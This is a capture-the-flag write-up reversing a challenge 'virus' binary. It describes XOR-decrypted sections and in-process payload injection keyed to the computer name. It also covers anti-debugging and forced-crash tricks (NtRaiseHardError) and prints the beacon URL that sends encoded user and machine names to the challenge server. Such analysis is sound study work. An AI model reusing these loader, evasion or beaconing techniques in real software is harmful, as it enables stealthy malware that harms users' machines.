








# Insomni'Hack - Corona Virus

> A devastating computer virus infected millions of machines around the world. Security experts were able to capture a sample, but the virus seems to be looking for something specific, and acts frustrated if it is not happy. Who knows the horrors it may unleach onto the world if...or when it finds what it wants?
>
>  We need your help to fully execute this virus and find out its hidden capabilities...before it ends up spreading to some...sensitive officials...
>
>  [file](https://static.insomnihack.ch/media/3e9d2f44d35ba2cb99a9aa9fbf3b28e82a98037464209185028b7976b7206397-d3b95dff3902cec5593a81a39f54144a1b6ab17e9e1477634cf5e61c34d77b2e.zip)
>
> The password of the zip file is "infected".
>
>  Note: this is a malware. While it does not seem to cause permanent damage nor exfiltrate personal data, it is recommended that experts only should take their chances.
>
>  Note2: only the provided binary is in-scope, no bruteforce/scans allowed.

We are getting a zip file, with a single `.exe` file which triggers Defender almost immediately so we need to disable it and just to be safe run every tests in Hyper-V.

Loading the file into Ghidra we are presented with not that complex `entry` method that can be simplified to the following form:
[code]
      _.elited = ".elited";
      find_section(&section_elited,&len,_.elited);
      xor_buffer(section_elited,len,(byte *)akxptiqmv);
      _usr32dll = &User32.dll_str;
      local_170 = &test_str;
      .sfile = &.sfile_str;
      _loadLibraryStr = &LoadLibraryA_str;
      _exitProcessStr = &ExitProcess_str;
      _freeLibraryStr = &FreeLibrary_str;
      local_148 = &_MessageBoxAStr;
      local_140 = &_akxptiqmv_str;
      _getComputerNameAStr = &_GetComputerNameA_Str;
      get_names((longlong *)&_usr32dll,9);
      addr_LoadLibrary = (code *)GetAddr(local_1b8,_loadLibraryStr);
      addr_ExitProcess = GetAddr(local_1b8,_exitProcessStr);
      addr_FreeLibrary = (code *)GetAddr(local_1b8,_freeLibraryStr);
      addr_GetComputerNameA = (code *)GetAddr(local_1b8,_getComputerNameAStr);
      addr_user32_lib = (*addr_LoadLibrary)(_usr32dll);
      if (addr_user32_lib != 0) {
        (*addr_GetComputerNameA)(computerNameBuf,buf_size);
        find_section(&sfile_section,&size,.sfile);
        xor_buffer(sfile_section,size,computerNameBuf);
        run(sfile_section,size);
        (*addr_FreeLibrary)(addr_user32_lib);
      }
      return;

[/code]

What is happening is, that we are finding a section `.elited`, decrypting with with XOR with password `akxptiqmv`. That section is used to obtain some names, load API functions like `LoadLibrary`, `ExitProcess`, `FreeLibrary` and `GetComputerNameA`. The last one is used to get the computer name and this is used as a password to decrypt data located in section `.sfile`. In the `run` function a remote thread is created in the same process and decrypted content from `.sfile` section is injected and executed.

We don't know what should be the correct computer name to decrypt the content of `.sfile` but seeing some checks in the `run` function for `MZ` and `PE` constants we know it supposed to be a valid exe file. Having that knowledge we can get the actual computer name: `MOI-S1KRIT-KOMP`. With that we got a second part of the challenge.

This is a bit more obfuscated one, with a few anti-debugging tricks. Some function were also quite large, and Ghidra took very long to decompile. To avoid waiting, I've looked mostly at the disassembly in this binary. Some function were decompiled but it wasn't pretty
[code]
      local_34 = 0;
      auStack208[0] = 0x140007852;
      _Seed = GetTickCount();
      auStack208[0] = 0x140007859;
      srand(_Seed);
      auStack208[0] = 0x140007868;
      local_3c = FUN_140006610();
      auStack208[0] = 0x140007885;
      local_38 = local_3c;
      local_48 = (char *)malloc((ulonglong)local_3c);
      local_c = 0x1a3fee83;
      uStack176 = 0x1400078b4;
      uVar16 = decode_pointer(?)(0x10);
      lVar2 = -uVar16;
      local_10 = 0x38cda9dc;
      *(undefined4 *)((longlong)&local_a8 + lVar2) = 0x4896565f;
      local_14 = 0x777001d;
      local_18 = 0x4bf4cc5b;
      local_1c = 0x772abdf3;

[/code]

Debugging tricks that were used by this file was quite fun (hence the name of the following function):
[code]
    void do_fun_stuff(undefined8 param_1)
    {
      FUN_140003820(0x3ff0000000000000,param_1,1);
      set_mouse_speed();
      calls_set_cursor_pos();
      call_beep();
      SwapMouseButton(1);
      return;
    }

[/code]

Checks were using `IsDebuggerPresent` API so it was quite easy to dodge that bullet. I've patched the binary in order not have to do it manually.

But even if we avoid those, more tricks awaits us - binary elevates it's privilege (`RtlAdjustPrivilege`) and call `NtRaiseHardError` that caused Hyper-V to crash and restart. We had to avoid that bullet too.

Being too quick on this api call can cause a VM restart.:(

The most interesting strings in in this binary was obfuscated and been spotted only when running the binary - but we could spot few interesting ones.

Looking closer we can spot, that user name (`The!Spy!Konstantin-K`) is xored with string `qoef13iurbn2408` producing the value `0x250700...` but in binary, but later this is converted to hex-string representation by the function located at `0x14000a490`.

Our user name is about to get XOR-ed

The same happens with computer name (`MOI-S1KRIT-KOMP`) producing the value `0x3c202...` and yet again this value is converted to hex-string by the same function.

We are just about to encrypt the computer name

First of all, binary was constructing a `GET` request to `coronavirus.insomnihack.ch` to a resource `d856c9191394bde38e6efa2e5aa6fb97785954dc97e4d696604bdc4470ef60dd.php?token=3nc0kD8B0WIwRLW5g3lT66XrWWeIAbLQOKdAeTQsYMNPke7kcscZFTHFgnQVokq4QOjltMFJKYHBmOYUu7sW1WyPXsG3fBEQQsEMJ50NqfuhP25WR94eX|0df0adba0df0adba0df0adba|2507004762431054390d004140515605060b4b7a33|3c202c4b620222273b3643797b7d68`.

The request is being sent...

Executing it gave us an interesting response `starting to get scared now...`. It was close. But we need to get deeper into those components.

Cryptic response

What is missing is the first and the 3rd part of the `token`. The first one is different every time the URL is generated, the third one is a bit more constant.

The first one appears to be generated by random generator so we could skip that for now.

Again looking more closely, it appears to be coming from a Mp4 file and it's apparently first 12B of the infamous/non-existent video file that we need to get right.

That's an interesting video name

There are few possible values that can be set as a header for a MP4 file and we had to brute/guess it. If we get that part right - the bytes shall be (`0x00000020667479706d703432`) - executing the request will give us the flag

Too bad already after the competition

It was a nice challenge.
